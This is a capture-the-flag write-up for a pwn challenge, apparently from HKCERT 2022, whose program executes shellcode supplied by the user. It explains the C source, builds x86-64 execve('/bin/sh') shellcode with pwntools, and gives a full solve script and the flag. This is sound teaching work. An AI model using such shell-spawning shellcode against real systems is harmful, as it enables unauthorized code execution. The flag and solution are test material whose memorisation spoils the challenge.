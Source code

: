 # Solution

## Understand the source code
At the start of the main function, the codes are mainly for initialization. 

```c
void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  alarm(60);
}
...
int main() {
    int SIZE = 100;
    void *shellcode;
    unsigned long rax, rbx, rcx, rdx, rbp, rsp, rsi, rdi;
    init();
    ...
```

The `setvbuf` calls in `init` function commonly appear in pwn challenges, which do not really affect the program logic. In most the time, we can ignore them.

The `alarm(60);` call forced the program to exit within 60 seconds. It's not important since solving the challenge by script usually costs several seconds only.

Then, we see

```c
int main() {
    ...
    shellcode = mmap((void *)0x13370000, SIZE, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE, -1, 0);
    
    if ((long)shellcode == -1)
        _abort("mmap failed!\n");
    ...
```

`mmap` function is for asking the computer to allocate a chunk to store data. In this case, the code is allocating a chunk in memory address 0x13370000 to store the shellcode that is input by the user.

After that, 

```c
    ...
    asm(
        "movq %%rax, %0;"
        "movq %%rbx, %1;"
        "movq %%rcx, %2;"
        "movq %%rdx, %3;"
        "movq %%rbp, %4;"
        "movq %%rsp, %5;"
        "movq %%rsi, %6;"
        "movq %%rdi, %7;"
        : "=r" (rax), "=r" (rbx), "=r" (rcx), "=r" (rdx), "=r" (rbp), "=r" (rsp), "=r" (rsi), "=r" (rdi) : : "memory"
    );
    printf("Before running the shellcode:\nrax = 0x%lx\nrbx = 0x%lx\nrcx = 0x%lx\nrdx = 0x%lx\nrbp = 0x%lx\nrsp = 0x%lx\nrsi = 0x%lx\nrdi = 0x%lx\n",
        rax, rbx, rcx, rdx, rbp, rsp, rsi, rdi);
    ...
    asm(
        "movq %0, %%rax;"
        "movq %1, %%rbx;"
        "movq %2, %%rcx;"
        "movq %3, %%rdx;"
        "movq %4, %%rbp;"
        "movq %5, %%rsp;"
        "movq %6, %%rsi;"
        "movq %7, %%rdi;"
        ::"m"(rax), "m"(rbx), "m"(rcx), "m"(rdx), "m"(rbp), "m"(rsp), "m"(rsi), "m"(rdi)
    );
    ...
```

this part of the code is for printing the current register values. It will be useful when address randomization protections are enabled.

Finally, the remaining code

```c
    ...
    printf("\nInput your shellcode here (max: 100): ");
    if (read(0, shellcode, SIZE - 1) == 0)
        _abort("read failed!\n");
    ...
    ((void_fn) shellcode)();
}
```

aims to read and run the user input shellcode.

## Vulnerability analysis

There is no bug in this program but running user input shellcode is dangerous, it literally means the user can do anything (run any code) in the server. Therefore, this type of pwn challenge aims to test the ctf player's ability to craft a shellcode to read flag or to spawn a shell.

## Crafting shellcode
We can easily genreate shellcode by assembly through pwntools:

```python
from pwn import *

assembly = '''
    mov rax, 0x3b
    xor rsi, rsi
'''

shellcode = asm(assembly, 'amd64')
...
```

Crafting assembly to spawn a shell is easier that crafing assembly to read the flag file, so this write-up only focus on spawning a shell.

To spawn a shell,we need `syscall`. `syscall` is a small library function that invokes the system call whose assembly language interface has the specified number with the specified arguments. There is a powerful syscall named `execve` which can let you execute arbitrary command, so if you can exec `/bin/sh`, a shell will spwan to you.

By checking at the syscall table: https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md, `execve('/bin/sh', null, null)` need
- rax=0x3b
- rdi=poninter pointing at the string '/bin/sh'
- rsi=0
- rdi=0

Then we can craft an assembly to acheive this:

```python
from pwn import *

assembly = '''
    mov rax, 0x3b
    mov rdi, (0x13370000+90)
    xor rsi, rsi
    xor rdx, rdx
    syscall
'''

shellcode = asm(assembly, 'amd64')
shellcode = shellcode.ljust(90) + b'/bin/sh\x00'
...
```
Here I fill rdi with \(0x13370000+90\), and then make sure '/bin/sh\x00' is start at (0x13370000+90\) by `shellcode = shellcode.ljust(90) + b'/bin/sh\x00'` since I know that the start of my shellcode is at 0x13370000.

Finally, we just feed the generated shellcode the program and let the program run it for me.

## Full solve script

```python
from pwn import *

shellcode = asm('''
    mov rax, 0x3b
    mov rdi, (0x13370000+90)
    xor rsi, rsi
    xor rdx, rdx
    syscall
''', 'amd64')
shellcode = shellcode.ljust(90) + b'/bin/sh\x00'

p = process('./chall')
p.sendlineafter('(max: 100): ', shellcode)
p.interactive()
```

## Flag
`hkcert22{At_1e4st_You_know_a5M}`
